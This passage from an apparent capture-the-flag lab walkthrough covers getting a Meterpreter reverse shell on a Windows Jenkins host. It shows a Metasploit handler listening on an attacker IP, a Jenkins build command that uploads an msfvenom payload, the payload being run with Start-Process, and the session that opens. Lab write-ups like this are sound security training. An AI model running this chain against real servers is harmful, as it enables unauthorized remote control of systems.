 > Make sure to set the **[LPORT]** to the port you specified when creating the **payload.exe** with **msfvenom**.


```bash
msf5 exploit(multi/handler) > set LHOST 10.13.0.34
LHOST => 10.13.0.34
msf5 exploit(multi/handler) > set LPORT 6555
LPORT => 6555
msf5 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 10.13.0.34:6555 
```
Now let's update that Jenkins Job build command with our payload. 

![we paste our new PS command to load our new payload](https://i.imgur.com/varPI6i.png)
Save the changes and again, trigger a new build as we did before. But unlike the previous deployed build in this case the exploit will just upload our payload to the server and we'll use our existing reverse shell from [Task 1] to execute it.

```powershell
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\project>dir


Directory: C:\Program Files (x86)\Jenkins\workspace\project


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---         8/16/2020   3:17 PM      73802 payload.exe     
```

We can see our payload got uploaded correctly. Let's run it now.

```powershell
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\project>Start-Process "payload.exe"   
```

Once our payload runs, we see our **meterpreter** session gets created:

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.13.0.34:6555 
[*] Sending stage (176195 bytes) to 10.10.177.5
[*] Meterpreter session 1 opened (10.13.0.34:6555 -> 10.10.177.5:49213) at 2020-08-16 18:32:18 -0400

meterpreter > 

```
